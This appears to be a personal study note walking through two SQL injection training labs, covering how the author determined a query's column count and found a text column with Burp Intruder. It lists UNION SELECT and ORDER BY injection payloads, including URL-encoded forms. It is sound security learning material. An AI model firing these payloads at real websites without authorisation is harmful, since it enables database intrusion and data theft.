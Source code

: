 ```yaml
---
sticker: emoji//1f9ea
---
```

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030154632.png)

To begin with this lab let's take a look at the page:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030154840.png)

We have a `refine your search` section, let's send the request to burp to analyze it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030155112.png)

We have a `filter?category=` section, I believe this is our injectable section, let's begin with the SQLI:


For this, I will use the notes from [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQLI]], let's send our request to intruder and start the attack in the following way:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030155422.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030155739.png)

Let's launch the attack:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030155927.png)
Judging based on the status code and response, we can pretty much visualize `' ORDER BY 3--` was the successful payload, let's look at the response:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030160033.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030160134.png)


Now, knowing that 3 is the right one, let's use the UNION attack:

```ad-important
##### USED:


`sql`

'+UNION+select+NULL--
'+UNION+select+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--


```



Let's use intruder again the test our payloads:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030161904.png)

So, the payload that worked was this:

```sql
'+UNION+select+NULL,+NULL,+NULL--
```


Let's send the request and finish the lab:



![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030162009.png)

## EXPLANATION VIDEO

<iframe width="800" height="545" src="https://www.youtube.com/embed/umXGHbEyW5I" title="SQL Injection - Lab #3 SQLi UNION attack determining the number of columns returned by the query" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>



# Lab: SQL injection UNION attack, finding a column containing text


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030162905.png)

## SENDING THE REQUEST

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030171439.png)

So, taking advantage of the notes I took previously, this is what could work:

```ad-important

`' UNION SELECT 'a',NULL,NULL,NULL--`
`' UNION SELECT NULL,'a',NULL,NULL--`
`' UNION SELECT NULL,NULL,'a',NULL--`
`' UNION SELECT NULL,NULL,NULL,'a'--`
```


Let's try, first, let's send the request to intruder and launch the attack:


```ad-important

##### USED PAYLOAD:


' UNION select 'abcdef'--
' UNION select NULL,'abcdef',NULL--
' UNION select NULL,NULL,'abcdef',NULL--
' UNION select NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,NULL,'abcdef'--




```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030173119.png)

If we launch the attack, we realize that:

`' UNION select NULL,'abcdef',NULL--` 

Was successful:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030173318.png)

So, we can finish the lab by sending the following request:


`' UNION select NULL,'0lrAqo',NULL--`


But since we need to send it encoded, this would be what we need to send:

`%27%20UNION%20select%20NULL%2C%270lrAqo%27%2CNULL--`


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241030173523.png)


## EXPLANATION VIDEO

<iframe width="800" height="600" src="https://www.youtube.com/embed/SGBTC5D7DTs" title="SQL Injection - Lab #4 SQL injection UNION attack, finding a column containing text" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
